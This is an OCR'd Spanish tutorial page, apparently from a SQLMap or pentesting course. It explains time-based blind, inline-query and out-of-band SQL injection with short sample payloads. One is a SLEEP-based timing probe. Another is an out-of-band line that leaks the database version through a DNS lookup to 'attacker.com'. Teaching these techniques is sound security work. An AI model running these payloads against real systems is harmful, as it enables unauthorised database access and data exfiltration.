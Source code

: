 
# **Inyección SQL ciega basada en el tiempo**

Ejemplo de`Time-based blind SQL Injection`:

Código:sql

```sql
AND 1=IF(2>1,SLEEP(5),0)

```

El principio de`Time-based blind SQL Injection`es similar al`Boolean-based blind SQL Injection`, pero aquí el tiempo de respuesta se usa como fuente de la diferenciación entre`TRUE`o`FALSE`.

- `TRUE`La respuesta generalmente se caracteriza por la diferencia notable en el tiempo de respuesta en comparación con la respuesta del servidor regular
- `FALSE`La respuesta debería dar como resultado un tiempo de respuesta indistinguible de los tiempos de respuesta regulares

`Time-based blind SQL Injection`es considerablemente más lento que el ciego sqli basado en booleano, ya que las consultas dan como resultado`TRUE`retrasaría la respuesta del servidor. Este tipo SQLI se usa en los casos donde`Boolean-based blind SQL Injection`no es aplicable. Por ejemplo, en caso de que la declaración SQL vulnerable no sea Quera (por ejemplo,`INSERT`, `UPDATE`o`DELETE`), ejecutado como parte de la funcionalidad auxiliar sin ningún efecto en el proceso de representación de la página, el SQLI basado en el tiempo se usa fuera de la necesidad, como`Boolean-based blind SQL Injection`Realmente no funcionaría en este caso.

---

# **Consultas en línea**

Ejemplo de`Inline Queries`:

Código:sql

```sql
SELECT (SELECT @@version) from

```

Este tipo de inyección incrustó una consulta dentro de la consulta original. Dicha inyección SQL es poco común, ya que necesita que la aplicación web vulnerable se escriba de cierta manera. Aún así, SQLMAP también admite este tipo de SQLI.

---

# **Inyección de SQL fuera de banda**

Ejemplo de`Out-of-band SQL Injection`:

Código:sql

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

```
